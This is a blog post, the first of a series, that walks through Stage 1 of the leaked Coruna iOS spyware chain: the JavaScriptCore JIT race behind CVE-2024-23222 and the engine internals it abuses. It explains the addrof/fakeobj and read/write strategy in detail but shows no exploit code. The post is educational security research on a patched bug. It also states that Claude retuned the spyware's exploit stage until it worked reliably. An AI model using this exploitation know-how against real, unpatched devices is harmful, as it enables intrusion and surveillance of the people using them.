





# Learning to Jailbreak an iPhone with Claude (Part 1)

## About This Series

Claude is making waves in the vulnerability research community. Skills that took years to hone are becoming a commodity overnight, and that's worrying.

In this series I want to explore the upside of the same shift: how we can learn alongside it. I'm not an exploit developer. I came into this knowing roughly what "type confusion" means and almost nothing about JIT compiler internals, and everything in here is what Claude helped me figure out along the way. The surprise wasn't how much it knew but how good it is at *uplifting* you into a domain you have no business being in.

It's a bit like having a Nobel laureate who's happy to spend the afternoon on undergrad problem sets: no implied "this is beneath me," no rationing of attention to questions that are interesting *enough*, and when an explanation isn't landing it will just *go build the thing*: spin up the debugger, write the measurement script, hand you the curve. The vulnerable WebKit wouldn't even compile on my laptop at first, and it took Claude most of a night to figure out why.

This writeup took somewhere between forty and eighty hours, most of it spent questioning my own understanding and torturing Claude with the kind of questions you'd be embarrassed to ask a person twice.

The trick to learning this way is to let the AI assist, not lead. If it just hands you the answer there's nothing left to discover, and the current state is almost accidentally ideal for that: it gets things wrong just often enough that you have to push back, verify, actually understand. The friction is the lesson. If that holds, this is a glimpse of the future of education: anyone with a laptop and (of course) the tokens to pay for it gets the depth of attention a PhD advisor gives their best student.

So what are we learning? I've always been curious about jailbreaking, so that's the project: build an iPhone jailbreak. The vehicle is **Coruna**, a commercial spyware kit that leaked in full: a complete Safari-to-kernel chain for iOS 17, caught in the wild, now patched and public. We'll take it apart stage by stage.

Debugging on an iPhone is a chicken-and-egg problem (you need a jailbreak to attach a debugger to the thing you're jailbreaking), so the workbench is a Mac running the vulnerable WebKit built from source. Coruna's WebKit stage is calibrated for iPhone hardware and misses almost every time on M-series; Claude retuned it until it landed reliably.

A caveat before we start: although I tried hard to verify and challenge everything Claude gave me, it can still hand me a confident, wrong explanation and I'll nod along because I don't have the background to catch it. Parts of what follows are almost certainly off in ways neither of us noticed. If you spot something, I'd like to hear it.

This series tries to be self-contained, and every claim in it that can be checked at a debugger prompt was checked at one. If you want to follow along, [`poc/REPRODUCING.md`](poc/REPRODUCING.md) has the build steps, the JSC option flags, and the exact invocations that produced the disassembly logs and timing measurements quoted below.

## Contents

- [About This Series](#about-this-series)
- [Scope](#scope)
- [The Shape of a Chain](#the-shape-of-a-chain)
- [CVE-2024-23222: From Type Confusion to Arbitrary Read/Write in Safari](#cve-2024-23222-from-type-confusion-to-arbitrary-readwrite-in-safari)
  - [Prior Art](#prior-art)
  - [High-Level Strategy](#high-level-strategy)
- [JavaScriptCore Internals](#javascriptcore-internals)
  - [NaN-Boxing](#nan-boxing)
  - [The JSCell Header](#the-jscell-header)
  - [Object Memory Layout](#object-memory-layout)
  - [Structures: The Hidden Class System](#structures-the-hidden-class-system)
  - [Garbage Collection](#garbage-collection)
- [The Bug](#the-bug)
  - [JIT Compilation: Speculation and Guards](#jit-compilation-speculation-and-guards)
  - [Inline Caches: Where the Profile Lives](#inline-caches-where-the-profile-lives)
  - [Watchpoints: The Compiler's Safety Net](#watchpoints-the-compilers-safety-net)
  - [The IR and the Trigger Function's Shape](#the-ir-and-the-trigger-functions-shape)
  - [The TOCTOU](#the-toctou)
- [The Race](#the-race)
  - [Threading the Timeline](#threading-the-timeline)
  - [Getting Past CheckStructure](#getting-past-checkstructure)
- [The Exploit](#the-exploit)
  - [Step 1: The Target Arrays](#step-1-the-target-arrays)
  - [Step 2: Structure-Divergent Objects](#step-2-structure-divergent-objects)
  - [Step 3: The JIT Trigger Function](#step-3-the-jit-trigger-function)
  - [Step 4: The Warmup, Racing the Compiler Thread](#step-4-the-warmup-racing-the-compiler-thread)
  - [Step 5: The GC Flush and the Swap](#step-5-the-gc-flush-and-the-swap)
  - [Step 6: The Phantom Object](#step-6-the-phantom-object)
  - [Step 7: The Heap Layout](#step-7-the-heap-layout)
  - [Step 8: Building addrof](#step-8-building-addrof)
  - [Step 9: Stealing the StructureID](#step-9-stealing-the-structureid)
  - [Step 10: Butterfly Corruption](#step-10-butterfly-corruption)
  - [Step 11: The read64/write64 Primitives](#step-11-the-read64write64-primitives)
  - [Step 12: Wasm Global Cross-Linking](#step-12-wasm-global-cross-linking)
- [The PoCs](#the-pocs)
  - [The jsc Shell](#the-jsc-shell)
  - [MiniBrowser](#minibrowser)
- [The Fix](#the-fix)
- [Acknowledgments](#acknowledgments)
- [Conclusion](#conclusion)

## Scope

Coruna was [first documented by Google](https://cloud.google.com/blog/topics/threat-intelligence/coruna-powerful-ios-exploit-kit) after it was caught targeting real users: a WebKit JavaScriptCore bug gets code running inside Safari, a PAC bypass defeats Apple's pointer-signing protections, a sandbox escape breaks out of the browser's jail, and a kernel exploit takes over the device. That last part, kernel read/write, is what a jailbreak *is*. Coruna's authors used it to install spyware; we're going to use the same primitives to get root on a phone we own.

The bugs were all patched in iOS 17.3. The kit ships with variants for several iOS versions; we're focusing on **iOS 17.2.1**, the newest target it supports, and only the main line, in enough depth that you could rebuild it yourself.

On the macOS workbench: even setting aside the debugger problem, you can't run a vulnerable Safari on a current iPhone, because iOS won't downgrade, Apple doesn't ship archived installers, and the SEP cross-checks the OS version on boot. So everything below runs against a WebKit built from the vulnerable source commit on a Mac. The few places where iOS and macOS genuinely differ (timing constants, one pointer-encoding scheme) are called out as they come up, and the [PoC section](#the-pocs) has the M-series numbers.

A second kit, [**DarkSword**](https://github.com/htimesnine/DarkSword-RCE), targeting newer iOS versions, leaked separately a few weeks ago. Once we've worked through Coruna and you have the primitives under your belt, we'll tackle that one in a follow-up series.

## The Shape of a Chain

A full chain is a serious piece of engineering with dozens of moving parts, every step depending on the last one landing exactly right. Before drowning in the details, it helps to know the map. Here's what a browser-to-kernel chain usually *does*, end to end.

**Stage 1: a bug in the renderer becomes memory read/write.** Safari's renderer process (WebContent) is where your JavaScript runs. It's also where the JIT compiler lives, and JIT compilers are enormous and full of subtle invariants. Coruna targeted CVE-2024-23222, a type confusion in the JIT compiler, tricking it into treating an array of object pointers as an array of raw doubles. The rest of Stage 1 is to build two primitives:

* **addrof**: give me the memory address of this JavaScript object.
* **fakeobj**: treat this address as if a JavaScript object lives there.

Those are dual: one reads a pointer as data, the other reads data as a pointer. Once you have both, getting arbitrary read/write of process memory is mostly bookkeeping. You forge an object whose internal storage pointer you control; aim it; index it -> arbitrary read/write.

**Stage 2: read/write becomes code execution, despite PAC.** On A12-and-later silicon, every function pointer and return address is cryptographically signed (PAC, Pointer Authentication). You can use Stage 1's R/W to overwrite a return address, but the CPU checks the signature on `ret` and faults on your forgery. So R/W is no longer code execution. The signing instruction exists (`pacia` and friends) but you need to be *executing code* to run it. This is a chicken-and-egg problem.

The way out is to stop trying to control *what runs* and instead control *what it runs on*. There's plenty of legitimate, already-signed code in the process; you don't replace it, you feed it bad arguments. Find a function that signs a pointer for its own purposes, arrange for the pointer it signs to be one you put there, harvest the result. Pure data-flow manipulation, no instruction pointer hijack until the very last step.

**Stage 3: escape the sandbox.** WebContent is jailed tight: most syscalls filtered, most kernel attack surface unreachable. Getting out requires a *second* vulnerability, usually in something the renderer is allowed to talk to: an IPC service, a shared-memory consumer, a kernel interface that wasn't supposed to be exposed but is. Often this stage is less "break the wall" and more "hop to a process that's allowed to dial the kernel bug you found."

**Stage 4: kernel.** A third vulnerability, this time in XNU. Sometimes the kernel bug yields direct code execution. More often it yields kernel read/write, and just like in userspace, R/W is not the same as execution. You may need yet another technique to bridge that gap. And on top of *that*, **PPL** (Page Protection Layer) walls off page tables and code-signing state even from kernel code; some chains need a fifth bug to get past it.

So Coruna's path: **JSC type confusion → addrof/fakeobj → R/W → PAC bypass → sandbox escape → kernel R/W → done.** Four stages, each one converting the previous stage's foothold into the next stage's starting position. The shape recurs across every modern chain; what varies is which bugs you found and how many gates your target hardware put in the way.

This writeup covers Stage 1 in full; later posts pick up where it leaves off.

## CVE-2024-23222: From Type Confusion to Arbitrary Read/Write in Safari

CVE-2024-23222 lives deep inside JavaScriptCore's optimizing pipeline: it's a race between two compiler passes running on a background thread, where one pass reads the heap, a second pass reads it again a microsecond later, and if the main thread changed something in between, the disagreement deletes a safety check that was load-bearing.

### Prior Art

**Groß, ["Attacking JavaScript Engines"](https://phrack.org/issues/70/3.html) (Phrack #70, 2021)** introduced the `addrof`/`fakeobj` duality: read a pointer as a double → leak the address; write a double as a pointer → fake object. From those two, arbitrary read/write via a fake `Float64Array`.

**Groß, ["JITsploitation"](https://googleprojectzero.blogspot.com/2020/09/jitsploitation-one.html) (Project Zero, 2020)** extended this to JIT bugs: the compiler eliminates the type check, so the confusion gives you the primitives directly, no UAF step required.

### High-Level Strategy

1. **Type confusion.** Race the JIT into compiling code that reads a pointer as a raw double, adds 16, and writes it back. That's [the bug](#the-bug).
2. **fakeobj.** The bumped pointer now lands inside an object's inline storage, where two property values masquerade as a forged [object header and butterfly pointer](#object-memory-layout).
3. **addrof.** The fake's butterfly points at a real neighbor, so `fake[i]` reads the neighbor's slots as raw doubles. Park a reference in one of those slots and you've leaked its address.
4. **Steal a [StructureID](#structures-the-hidden-class-system).** The fake's header is garbage and the next [GC](#garbage-collection) will crash on it. Use addrof to read a legitimate StructureID off a live object and patch it in.
5. **Migrate to real arrays.** Use the fake to bend one real array's butterfly at another's, giving `read64`/`write64` hosted on objects the GC won't choke on.
6. **Migrate to Wasm.** Use that to rewire two Wasm instances' global slots into a permanent read/write gadget. Wasm storage isn't scanned by the JS GC at all. Null out the bootstrap fakes, survive a collection, done.

Steps 2, 5, and 6 are the same trick three times (aim X's storage pointer at Y, write through X to retarget Y, read through Y to dereference), each time re-hosted on a foundation the engine inspects less.

## JavaScriptCore Internals

JavaScriptCore (JSC) is WebKit's JavaScript engine. It's the thing that runs every `<script>` tag in Safari. It's also one of the largest and most aggressively optimized pieces of code Apple ships: a four-tier JIT pipeline, a concurrent garbage collector, an inline-caching system that rewrites itself as it learns what your code does. All of that machinery exists to make a dynamically-typed language run at near-native speed, and all of it makes assumptions about memory layout that an exploit can violate. Filip Pizlo's ["Speculation in JavaScriptCore"](https://webkit.org/blog/10308/speculation-in-javascriptcore/) is the canonical deep dive from the engine's own architect; this section is the subset you need for the bug.

### NaN-Boxing

IEEE 754 reserves 2⁵³−2 bit patterns for NaN (all-ones exponent, nonzero mantissa), all of which the FPU treats identically; the spec only needs one. JavaScript's only numeric type is the double, so 64 bits is the natural width for *every* JS value, and JSC stuffs the non-numbers into that NaN dead space:

```
Pointers:    0x0000 tag + 48-bit address     (obj @ 0x108A04080 → 0x0000000108A04080)
Integers:    0xFFFE_0000 tag + 32-bit int    (42 → 0xFFFE00000000002A)
Doubles:     raw bits + DoubleEncodeOffset   (offset = 1<<49 = 0x0002_0000_0000_0000)
```

The **DoubleEncodeOffset** shifts doubles into a range that doesn't collide with pointers or integers; the engine subtracts it back on read. The exploit pre-subtracts this offset when crafting the phantom's fake header (Step 6) so the *stored* bytes are correct.

The duality: read a pointer slot as a double → address leaked. Write a double into a pointer slot → the engine dereferences your bits.

### The JSCell Header

Every object on JSC's heap starts with an 8-byte header:

```
Byte 0-3:  StructureID     (uint32): encoded Structure* (offset on macOS, ptr>>4 on iOS)
Byte 4:    IndexingType    (uint8) : how indexed elements are stored
Byte 5:    JSType          (uint8) : what kind of object (array, function, etc.)
Byte 6:    InlineTypeFlags (uint8) : flags (OverridesGetOwnPropertySlot, etc.)
Byte 7:    CellState       (uint8) : GC marking state
```

The **IndexingType** determines how `arr[i]` accesses work:

```
IndexingType byte = IndexingShape | IsArray

IndexingShape:
  0x00  NoIndexing         : no indexed elements
  0x04  Int32Shape         : only 32-bit integers
  0x06  DoubleShape        : only IEEE 754 doubles (UNBOXED: no NaN-boxing)
  0x08  ContiguousShape    : any JSValue (NaN-boxed, pointers have 0x0000 tag)

IsArray flag = 0x01

Combined:
  0x06  NonArrayWithDouble      : plain object with unboxed double elements
  0x07  ArrayWithDouble         : JSArray with unboxed double elements
  0x08  NonArrayWithContiguous  : plain object with NaN-boxed elements
  0x09  ArrayWithContiguous     : JSArray with NaN-boxed elements
```

The critical distinction:
* **DoubleShape stores raw IEEE 754 doubles** (8 bytes, no tags).
* **ContiguousShape stores NaN-boxed JSValues** (8 bytes, with type tags, where pointers have `0x0000` in the upper bits).

If the engine reads ContiguousShape data as DoubleShape, pointer tags become part of the "double," leaking the address.

### Object Memory Layout

Every JS object starts the same way: an 8-byte JSCell header at +0, an 8-byte butterfly pointer at +8. What comes after that 16-byte prefix depends on the kind of object.

A plain object follows the prefix with **inline property slots**, but how many you get depends on how the object was born. An object literal gets at least as many slots as it has properties, rounded up to the next even number: `{a: 1}` and `{a: 1, b: 2}` both get two slots and a 32-byte cell. The exploit leans on this twice: `pm.phantom`'s two-property literal puts `fakeHeader` at +16 and `fakeButterfly` at +24, the offsets [Step 6](#step-6-the-phantom-object) reinterprets as a JSCell header and butterfly pointer; and the spray template in [Step 7](#step-7-the-heap-layout) is a two-property literal precisely so every spray cell lands at 32-byte spacing.

`Reflect.construct(Object, [], customNewTarget)` is the opposite: **zero** inline capacity. Every property added afterward goes straight to the butterfly's left wing, the out-of-line slots that grow toward lower addresses at offsets −16, −24, and so on (−8 and −4 are the indexing header). The exploit's `targetObj` is built this way, which is why the `GetByOffset` for `targetObj.p1` in the FTL disassembly later reads at `[butterfly, #-16]`, not from an inline offset.



The **butterfly** is the out-of-line storage both cases spill into, and it's the part that matters for exploitation. The pointer at +8 lands in the *middle* of the allocation: indexed elements (`arr[0]`, `arr[1]`, ...) grow to the right toward higher addresses; overflow named properties grow to the left toward lower addresses; the bounds-check header (`publicLength` at -8, `vectorLength` at -4) sits just left of the landing point. Two wings around a central spine, hence the name.

And here's why the butterfly is the whole game: that pointer at +8 is a raw machine address. Overwrite it, and `arr[i]` reads and writes wherever you aimed it. Every read/write primitive in this exploit is a butterfly pointer pointed at the wrong place.

### Structures: The Hidden Class System

Every object has a hidden [**Structure**](https://webkit.org/blog/10308/speculation-in-javascriptcore/) describing its property layout: what properties exist, at what offsets, what types the JIT expects. Every object's JSCell header carries a 4-byte StructureID. The encoding is platform-dependent: on Apple Silicon macOS it's `decode(id) = startOfStructureHeap + (id & mask)`, an offset into a dedicated 4 GB heap region; on iOS, where the VM space fits under 36 bits, it's just `decode(id) = id << 4`, no heap base needed. The exploit doesn't care which: it steals IDs from live objects rather than computing them, so the bits round-trip regardless. (An older scheme, iOS 13 era, mixed 7 entropy bits into the ID and routed lookups through a table; you couldn't forge one without leaking one first. That's gone.)

The StructureID matters because the garbage collector trusts it. When the GC visits an object, it decodes the ID to find the Structure, and the Structure tells it how many slots to scan and what they contain. A bogus ID is fatal whether or not it decodes to something real: unmapped memory faults on decode; a valid-but-wrong Structure (the dense structure heap makes this the likely case) sends the collector scanning slots past the end of your fake into adjacent allocations. The exploit's hand-built JSCell header in [Step 6](#step-6-the-phantom-object) carries a hardcoded ID of `0x31337`, which survives only because nothing ever decodes it: the fake object is never reached by a GC scan and never has a property looked up on it before [Step 9](#step-9-stealing-the-structureid) overwrites the field with an ID stolen from a live object whose Structure says *zero named properties, non-pointer elements*, so the GC scans nothing. The theft is for GC safety, not for access.

When you add or delete properties, the object transitions to a new Structure. Reassigning an existing property does not: transitions are about **shape** (which names exist, at which offsets), not value. Writing a new value into a slot that's already there is a plain memory store.

The transitions form a graph. Each Structure has a transition table mapping "operation performed" to "next Structure," and crucially, **the table lives in the Structure, not the object**. The first object to add property `p1` from S₀ creates S₁ and records the edge `S₀ + p1 → S₁` in S₀'s table. Every subsequent object at S₀ that adds `p1` follows that same edge to the same S₁. The first walker carves the path; later walkers follow it.

The sharing is the whole point. A million `Point` objects from the same constructor all carry the same 4-byte StructureID instead of a million copies of the property map, and (more importantly for the JIT) a type guard like `CheckStructure(S₂)` is a single integer compare. If every object had its own private layout descriptor, "is this a Point?" would mean walking a property table; with shared Structures it's `cmp w8, #imm`. The Structure pointer *is* the type identity.

`delete` doesn't reverse along an edge; it forks a new one. Delete `p1` from S₁ and you don't return to S₀, you arrive at some new S_n with the same layout as S₀ but a fresh ID. The graph is a tree, not a DAG: nodes don't merge just because their layouts happen to match.

[Step 2](#step-2-structure-divergent-objects) walks the exploit's actual setup through this graph; the S₂ and S₆ it produces show up everywhere from there on.

### Garbage Collection

The GC shows up in this exploit in two opposite roles. As an **allocator**, its behavior is something to exploit: the way free space is handed out is what makes Step 7's heap-adjacency trick deterministic. As a **scanner**, it's something to survive: the moment a collection visits the fake object from Step 6 and tries to decode its `0x31337` StructureID, the process dies. Steps 9 through 12 are mostly about getting out from under that second concern before the next sweep.

JSC's collector ([Riptide](https://webkit.org/blog/7122/introducing-riptide-webkits-retreating-wavefront-concurrent-garbage-collector/)) is **generational** but **non-moving**. Objects never relocate; an address you grab once is good forever. The eden/full distinction is about which regions get swept, not about copying survivors anywhere. Allocations come from per-size-class pools of `MarkedBlock`s. The allocator works through one block at a time, building its free list lazily by sweeping it: an empty block yields one block-sized interval (consecutive allocations land at consecutive addresses, like a bump pointer), a block with surviving objects yields fragmented intervals around them. When a block is exhausted the allocator asks the `BlockDirectory` for the next one, and the directory scans forward through its block list via a cursor that only ever advances ([BlockDirectory.cpp:102](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/heap/BlockDirectory.cpp#L102)). Once the cursor moves past a fragmented block, that block won't be revisited until the next collection resets the cursor to zero.

Two consequences for the exploit:

**Predictable layout.** Step 7 needs `overlapObj` and `adjacentObj` to come from the same interval so they sit 32 bytes apart. If the allocator is in a fragmented block, they could land in separate holes.

**Flushing.** Allocating ~1M throwaway arrays before the type confusion doesn't fix the fragmented blocks; it advances the cursor past them. The spray exhausts every partially-occupied block at the front of the directory, then forces fresh blocks to be created and fills those too. By the time it's done the cursor is deep into territory where every block was filled wholesale with spray garbage and then died wholesale, so the next block Step 7 picks up sweeps to a single clean interval. The spray also pushes back the next collection, buying time before GC scans the phantom's fake header.

**CellState and the write barrier.** Riptide is concurrent, so it has to handle the case where the mutator stores a pointer into an object the collector has already finished scanning. The fix is a write barrier: every `obj.field = value` checks `obj`'s CellState byte (byte 7 of the JSCell header), and if the cell looks already-scanned the barrier takes a slow path that re-queues it. The states ([CellState.h](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/heap/CellState.h)) are:

* `PossiblyBlack = 0`
* `DefinitelyWhite = 1`
* `PossiblyGrey = 2`

The barrier check is `cellState <= barrierThreshold`, and outside an active collection the threshold is `0` ([Heap.h:827](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/heap/Heap.h#L827)). So only `0` triggers the slow path; `1` and `2` skip it. The slow path eventually computes the cell's `MarkedBlock` by masking the cell address down to its block boundary, which is a problem for a fake object that doesn't sit at a real cell slot: the masked address points into the middle of a block whose metadata describes some other size class entirely. The exploit puts `0x01` in byte 7 of the phantom's header so every store into the phantom takes the fast path and never touches block metadata.

## The Bug

CVE-2024-23222 is a JIT compiler bug. The compiler runs on a background thread while JavaScript keeps executing on the main thread. The compiler reads the JavaScript heap as part of its job. To know what code to emit for `obj.p1`, it goes and looks at what `obj.p1` actually holds right now. One piece of analysis code does this read, writes down what it saw, and moves on. A second piece of code reads the note later and trusts it. If the main thread changed the heap between the read and the trust, the note is a lie. The compiler deletes a safety **guard** based on the lie. The compiled code runs without the guard.

The exploit needs *two* things to be true at once: the compiled code must still go look at `obj.p1` at runtime (so the exploit can swap in something hostile after compilation finishes), *and* it must skip checking what it found. The same compiler, looking at the same property load, has to reach two contradictory conclusions: "I don't know what this is" (so emit the read) and "I know exactly what this is" (so the check is redundant).

### JIT Compilation: Speculation and Guards

JSC has four execution tiers, and a function gets promoted through them as it gets hotter: **LLInt** (interpreter) → **Baseline JIT** (straight machine-code translation) → **DFG** (first optimizing tier, speculative) → **FTL** (most aggressive). CVE-2024-23222 lives in the FTL pipeline; everything below assumes the trigger function has been called enough times to get there.

The lower tiers are honest, always checking types at runtime. The optimizing tiers gamble. They read profile data the lower tiers collected ("`arr` has been an `ArrayWithDouble` on every one of the last ten thousand calls") and compile a fast path that *assumes* it stays true. The fast path treats array elements as raw IEEE-754 doubles. That assumption is protected by a runtime guard at the top of the fast path: if the object ever differs, the guard bails back to the interpreter. Two guard kinds matter here:

* **CheckStructure**: does the object's StructureID match what was profiled?
* **CheckArray**: does its IndexingType match?

This much is sound: gamble, but verify. The attack surface is one layer deeper. "Optimizing" means emitting fewer instructions, and a guard is an instruction. If the compiler can *prove* a guard always passes, it deletes it. The FTL is, in large part, a machine for deleting safety checks under proof, and that proof depends on a heap read the exploit can race. Note that the guard is what *licenses* the fast path: a profile too messy to speculate on gets generic code with no guard *and* no raw-double load. The exploit needs the compiler to commit to the fast path (which only happens because the guard is there to catch the bad case) and *then* lose the guard.

### Inline Caches: Where the Profile Lives

The profile data is stored per call site, in an **inline cache** (IC) attached to each property access in the bytecode. Every time the interpreter runs `obj.p1`, the IC at that site records which Structure `obj` had. After warmup the IC at a given site is a small set of StructureIDs: "at this `.p1`, I've seen S₂ and S₆, nothing else."

When the FTL compiles that access, it reads the IC and emits a `CheckStructure({S₂, S₆})` guard: accept any structure seen during training, bail on anything new. The IC's set is the guard's accept-list. It is also, as we'll see in a moment, what the compiler validates its own heap reads against.

The exploit goes out of its way to put *two* entries in this IC, by alternating which object it feeds to `obj.p1` during warmup ([Step 2](#step-2-structure-divergent-objects)). One entry would make the bug unreachable. Hold that thought; the reason needs machinery we haven't built yet, and it comes back as the [last beat of the race](#getting-past-checkstructure).

### Watchpoints: The Compiler's Safety Net

The compiler reads the live heap to decide what code to emit, and it does this from a background thread while the main thread keeps mutating that heap. Anything it learns can go stale. The defense is a **watchpoint**: a tripwire on a fact the compiler depended on. Install ([DFGPlan.cpp:556](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/dfg/DFGPlan.cpp#L556)) rereads every armed watchpoint and throws the plan away if any has already fired; the survivors get a [`CodeBlockJettisoningWatchpoint`](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/bytecode/CodeBlockJettisoningWatchpoint.cpp#L34) linked in pointing back at the installed code, so a later fire jettisons it and the next call drops to baseline. Arm a watchpoint covering every fact you read off the heap, and that fact stays true for the lifetime of the code or the code dies.

There are two ways an object's property can change, drawn back in [Structures](#structures-the-hidden-class-system). A **transition** changes which slots exist (add a property, delete one) and gives the object a new Structure; an **in-place write** overwrites a slot that's already there and leaves the Structure alone. Each gets a watchpoint.

The **transition watchpoint** lives on the Structure itself. Every Structure is born with one, armed, and it fires the first time any object transitions out. It's one-shot: the second object to leave finds it already fired, which is fine because anyone who depended on it is already invalidated. Arm S₂'s transition watchpoint and any code that assumed "this object stays at S₂" is safe.

The **property replacement watchpoint** is finer-grained: one per (Structure, offset) pair, firing on an in-place write to that slot at that Structure. It does not fire on transitions (a transition doesn't touch any existing slot's value) and does not fire on adds (an add writes a slot that didn't exist before); it fires only on `obj.p1 = newValue` landing in an already-occupied slot. And it doesn't exist until the IC creates it: the first structure to land at the IC site gets its set allocated at [Repatch.cpp:430](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/bytecode/Repatch.cpp#L430) (the inline-self fast path); subsequent structures get theirs at [InlineCacheCompiler.cpp:1511](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/bytecode/InlineCacheCompiler.cpp#L1511) when the IC promotes to a polymorphic stub. Query a Structure the IC never profiled and the replacement watchpoint comes back null.

So when the compiler reads `obj.p1` off the heap, it arms the replacement watchpoint for every Structure in the IC's set at `p1`'s offset. If the IC saw `{S₂, S₆}`, the compiler arms (S₂, `p1`) and (S₆, `p1`). An in-place overwrite at either Structure fires a watchpoint and the bad code dies, at install or after. What it doesn't see: an object that leaves S₂, walks through unprofiled Structures, and arrives at S₆ with a different value in the slot. [Step 5](#walking-through-the-watchpoint-gap) traces that walk.

### The IR and the Trigger Function's Shape

The FTL doesn't compile straight from source to machine code. It first lowers the JavaScript to an **intermediate representation** (IR): a graph of simple operations the compiler can reason about more easily than source text. The graph is partitioned into **basic blocks**, straight-line runs of operations with one entry point and one exit point. An `if` in the source becomes a branch out of one block into two successor blocks, which eventually rejoin into a fourth.

